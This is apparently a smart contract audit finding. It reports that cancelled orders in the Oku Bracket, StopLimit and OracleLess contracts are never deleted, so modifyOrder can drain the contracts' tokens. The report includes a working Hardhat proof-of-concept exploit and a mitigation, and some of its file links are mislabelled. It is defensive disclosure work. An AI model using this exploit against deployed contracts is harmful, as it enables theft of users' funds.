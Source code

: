 Boxy Peach Jellyfish

High

# Users can cancel their orders and can further drain contracts(Basket, OracleLess, StopLimit) balance of their tokenIn

### Summary

Orders are not deleted after being canceled via `cancelOrder()`. Therefore, a user whose order has been canceled can call `modifyOrder` and reduce the canceled order amount to the `minOrderSize` set by the protocol. The reduced amount will be sent to the users who have already initially received the canceled order amount for that same order. 

### Root Cause

In [Bracket.sol:501](https://github.com/sherlock-audit/2024-11-oku/blob/main/oku-custom-order-types/contracts/automatedTrigger/Bracket.sol#L501), 

In [StopLimit.sol:150](https://github.com/sherlock-audit/2024-11-oku/blob/main/oku-custom-order-types/contracts/automatedTrigger/OracleLess.sol#L150), 

In [OracleLess.sol:358](https://github.com/sherlock-audit/2024-11-oku/blob/main/oku-custom-order-types/contracts/automatedTrigger/StopLimit.sol#L358), 

`order` to be canceled should be deleted but isn't.

### Internal pre-conditions

_No response_

### External pre-conditions

_No response_

### Attack Path


User order gets canceled via `cancelOrder()` or `adminCancelOrder`.
The user calls `modifyOrder()` passing the canceled order ID and proceeds to reduce the cancel order amount to `minOrderSize`.


### Impact

A user can drain the contracts (`Basket, OracleLess, StopLimit`) token balance by repeating the same process.

### PoC

Add this to [test/triggerV2/happyPath.ts](https://github.com/sherlock-audit/2024-11-oku/blob/main/oku-custom-order-types/test/triggerV2/happyPath.ts).

```typescript
describe("Create Order With Intent To Steal Contract Funds After Order Has Been Canceled", () => {
    const stopDelta = ethers.parseUnits("500", 8);
    const strikeDelta = ethers.parseUnits("100", 8);
    const strikeBips = 500;

    let orderId: BigInt;
    //setup
    before(async () => {
        //steal money for s.Bob
        await stealMoney(
            s.wethWhale,
            await s.Bob.getAddress(),
            await s.WETH.getAddress(),
            s.wethAmount
        );

        //reset test oracle price
        await s.wethOracle.setPrice(s.initialEthPrice);
        await s.usdcOracle.setPrice(s.initialUsdcPrice);
    });

    it("Should Begin Attack", async () => {
        const currentPrice = await s.Master.getExchangeRate(
            await s.WETH.getAddress(),
            await s.USDC.getAddress()
        );
        await s.WETH.connect(s.Bob).approve(
            await s.Bracket.getAddress(),
            s.wethAmount
        );

        await s.Bracket.connect(s.Bob).createOrder(
            "0x",
            currentPrice + strikeDelta,
            currentPrice - stopDelta,
            s.wethAmount,
            await s.WETH.getAddress(),
            await s.USDC.getAddress(),
            await s.Bob.getAddress(),
            5,
            strikeBips,
            0,
            false,
            "0x"
        );

        const filter = s.Bracket.filters.OrderCreated;
        const events = await s.Bracket.queryFilter(filter, -1);
        const event = events[0].args;
        orderId = event[0];

        //verify pending order exists
        const list = await s.Bracket.getPendingOrders();
        expect(list.length).to.eq(1, "1 pending order");

        //verify our input token was received
        const balance = await s.WETH.balanceOf(await s.Bracket.getAddress());
        expect(balance).to.be.closeTo(
            s.wethAmount,
            200000000000000000n,
            "WETH received"
        );

        // Cancels Order
        await s.Bracket.connect(s.Bob).cancelOrder(orderId.toString());
        const ogOrder = await s.Bracket.orders(orderId.toString());

        const wethBalanceBeforeAttack = await s.WETH.balanceOf(
            await s.Bob.getAddress()
        );
        const amountToSteal = s.wethAmount / 2n;

        // send WETH to Bracket contract
        await stealMoney(
            s.wethWhale,
            await s.Bracket.getAddress(),
            await s.WETH.getAddress(),
            amountToSteal
        );

        const wethBracketBalanceBeforeAttack = await s.WETH.balanceOf(
            await s.Bracket.getAddress()
        );
        expect(wethBracketBalanceBeforeAttack).to.be.eq(
            amountToSteal,
            "WETH to Bracket received"
        );

        //decrease already canceled position amount to steal from contract
        await s.Bracket.connect(s.Bob).modifyOrder(
            orderId.toString(),
            ethers.toBigInt(ogOrder.takeProfit),
            ethers.toBigInt(ogOrder.stopPrice),
            amountToSteal,
            ogOrder.tokenOut,
            ogOrder.recipient,
            ogOrder.takeProfitSlippage,
            ogOrder.stopSlippage,
            false,
            false,
            "0x"
        );

        const wethBalanceAfterAttack = await s.WETH.balanceOf(
            await s.Bob.getAddress()
        );
        const wethBracketBalanceAfterAttack = await s.WETH.balanceOf(
            await s.Bracket.getAddress()
        );

        expect(wethBracketBalanceAfterAttack).to.be.eq(
            0,
            "WETH in Bracket stolen"
        );
        expect(wethBalanceAfterAttack).to.be.eq(
            wethBalanceBeforeAttack + amountToSteal,
            "Stolen WETH received"
        );
    });
});
```

This POC is for Bracket, POC for StopLimit and OracleLess are similar so no need to write them.

### Mitigation

In [Bracket.sol:501](https://github.com/sherlock-audit/2024-11-oku/blob/main/oku-custom-order-types/contracts/automatedTrigger/Bracket.sol#L501), 

In [StopLimit.sol:150](https://github.com/sherlock-audit/2024-11-oku/blob/main/oku-custom-order-types/contracts/automatedTrigger/OracleLess.sol#L150), 

In [OracleLess.sol:358](https://github.com/sherlock-audit/2024-11-oku/blob/main/oku-custom-order-types/contracts/automatedTrigger/StopLimit.sol#L358), 

`order` to be canceled should be deleted.

A check inmodifyOrder() should be made that verifies that an order is active before modifying.
